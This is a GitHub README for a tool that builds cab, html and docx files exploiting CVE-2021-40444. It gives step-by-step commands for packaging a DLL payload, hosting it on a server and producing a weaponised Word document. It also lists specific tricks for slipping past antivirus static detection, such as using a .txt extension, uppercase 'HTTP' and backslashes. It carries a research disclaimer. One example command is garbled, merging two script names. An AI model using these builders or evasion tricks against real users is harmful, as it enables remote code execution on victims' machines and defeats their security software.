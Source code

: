CVE-2021-40444 builders

This repo contain builders of cab file, html file, and docx file for CVE-2021-40444 exploit. This repo is just for testing, research and educational purposes. You are responsible for how you use the code provided in this repo.

The code is developed by reversing malware samples found in wild and shared by various security researchers.

<b>The builders for this CVE are already public. The purpose of this repo is to check how effectively we can bypass static detections by different AV vendors for the docx files, at the time of writing.
</b><br><br>
The JS code can easily obfuscated by online tools or manually. But the docx file contains just one file which is document.xml.rels, on which the signatures can be based. What we can tamper in it so we can evade static detections of most of the AV.

The cabrc.exe is Microsoft exe included in Internet Explorer Administration Kit and can be downloaded from https://docs.microsoft.com/en-us/internet-explorer/ie11-ieak/ieak-information-and-downloads and after installation you would find this exe in "C:\Program Files (x86)\Windows IEAK 11"

There are 3 builders. 

The code works for python 2.7

First go to CVE-2021-40444 folder and place you dll file there and rename it to IEcache.inf (or you can use the calc dll already there).

Then go to source folder and generate the cab file

c:\cve-2021-40444\sources\python generate_cab.py

Upload your cab file and using the cab file URL generate the html file

c:\cve-2021-40444\sources\python generate_html.py http://192.168.1.12/new/winupdate.cab tests.txt (Note instead of using html extension, if we use .txt the exploit still works, but bypasses AV)

Now finally upload your html file and generate the doc file. Use HTTP (capital) instead of http, and "\" instead of "/", to bypass AV. And we dont need x-usc: too.

example: c:\cve-2021-40444\sources\python\generate_html.py generate_doc.py HTTP:\\\192.168.1.12\new\tests.txt

The result is in front of you.<br><br>
<img src="screen.png"></img><br>
www.aslitsecurity.com<br>
info@aslitsecurity.com

